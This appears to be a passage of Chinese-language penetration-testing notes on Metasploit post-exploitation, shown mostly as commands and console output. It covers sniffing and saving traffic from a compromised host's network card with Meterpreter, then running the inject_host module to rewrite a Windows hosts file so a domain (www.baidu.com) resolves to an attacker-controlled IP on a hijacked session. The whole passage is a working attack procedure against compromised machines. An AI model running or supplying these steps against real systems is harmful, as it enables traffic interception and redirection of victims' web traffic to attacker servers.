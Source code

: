 sniffer_start 2 对2号网卡进行嗅探

sniffer_dump 2 /root/123.cap 把2号网卡抓的数据包保存为/root/123.cap

wireshark 123.cap 直接使用wireshark打开123.cap这个包

sniffer_stop 2 停止对2号网卡的嗅探

## msf host注入

在meterpreter中background

use post/windows/manage/inject_host 使用注入模块

show options

set ip [自己的ip] 这里的ip是之后目标指向的ip

set domain [要篡改的域名] 要伪造什么域名

set sessions [目标session] 对哪个session id进行修改

exploit

------

meterpreter > background

[*] Backgrounding session 2…

msf6 exploit(multi/handler) > use post/windows/manage/inject_host

msf6 post(windows/manage/inject_host) > show options

Module options (post/windows/manage/inject_host):

Name Current Setting Required Description

------

DOMAIN yes Domain name for host file manipulation.

IP yes IP address to point domain name to.

SESSION yes The session to run this module on

msf6 post(windows/manage/inject_host) > set ip 192.168.31.110

ip => 192.168.31.110

msf6 post(windows/manage/inject_host) > set domain [www.baidu.com](http://www.baidu.com/)

domain => [www.baidu.com](http://www.baidu.com/)

msf6 post(windows/manage/inject_host) > set sessions 2

[-] Unknown datastore option: sessions. Did you mean SESSION?

msf6 post(windows/manage/inject_host) > set session 2

session => 2

------
